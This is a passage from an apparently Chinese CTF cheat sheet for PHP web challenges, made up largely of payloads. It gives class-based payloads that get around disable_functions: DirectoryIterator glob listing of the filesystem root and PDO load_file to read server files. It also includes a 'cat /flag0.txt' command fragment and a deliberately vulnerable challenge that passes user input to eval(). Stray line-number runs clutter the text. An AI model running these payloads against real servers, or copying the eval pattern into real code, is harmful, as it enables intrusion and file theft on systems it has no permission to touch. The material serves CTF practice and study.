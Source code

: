```php
ctfshow("cat /flag0.txt");ob_end_flush();
#需要通过url编码哦
123456789101112131415161718192021222324252627282930313233343536373839404142434445464748495051525354555657585960616263646566676869707172737475767778798081828384858687888990919293949596979899100101102103104105106107108109110111112113114115116117118119120121122123124125126127128129130131132133134135136137138139140141142143144145146147148149150151152153154155156157158159160161162163164165166167168169170171172173174175176177178179180181182183184185186187188189190191192193194195196197198199200201202
```





##### 0x18 disable_funcitons全通payload

该方法使用php类来绕过，可以配置disable_classes来禁用类。

读目录

```php
$a=new DirectoryIterator("glob:///*");foreach($a as $f){echo($f->__toString().' ');};
1
```

读文件

```php
try {
  $dbh = new PDO('mysql:host=localhost;dbname=ctftraining', 'root', 'root');
  foreach($dbh->query('select load_file("/var/www/html/index.php")') as $row) {
      echo($row[0])."|";
  }
  $dbh = null;
} catch (PDOException $e) {
  echo $e->getMessage();
  die();
}
12345678910
```

注：必须要有PDO拓展，里面的连接数据根据情况进行更改。

该方法来自：https://wp.ctf.show/d/142-ctfshow-web-web90-97





##### 0x19 利用php内置类rce

一， 利用 FilesystemIterator 获取指定目录下的所有文件
例题：ctfshow-web110

```php
 <?php
highlight_file(__FILE__);
error_reporting(0);
if(isset($_GET['v1']) && isset($_GET['v2'])){
    $v1 = $_GET['v1'];
    $v2 = $_GET['v2'];

    if(preg_match('/\~|\`|\!|\@|\#|\\$|\%|\^|\&|\*|\(|\)|\_|\-|\+|\=|\{|\[|\;|\:|\"|\'|\,|\.|\?|\\\\|\/|[0-9]/', $v1)){
            die("error v1");
    }
    if(preg_match('/\~|\`|\!|\@|\#|\\$|\%|\^|\&|\*|\(|\)|\_|\-|\+|\=|\{|\[|\;|\:|\"|\'|\,|\.|\?|\\\\|\/|[0-9]/', $v2)){
            die("error v2");
    }
    eval("echo new $v1($v2());");
}
?>
```